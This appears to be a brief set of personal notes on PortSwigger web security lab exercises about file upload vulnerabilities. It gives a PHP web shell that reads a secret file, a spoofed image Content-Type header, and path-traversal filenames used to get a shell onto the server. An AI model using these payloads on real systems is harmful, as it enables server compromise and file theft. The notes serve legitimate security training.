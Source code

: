 # portswiger
1. Lab: Remote code execution via web shell upload
 `<?php echo file_get_contents('/home/carlos/secret'); ?>`

2. Lab: Web shell upload via Content-Type restriction bypass
Content-Type: image/jpeg

3. Lab: Web shell upload via path traversal
`filename="%2e%2e%2fps.php"` `filename="../ps.php" `

4. 


   


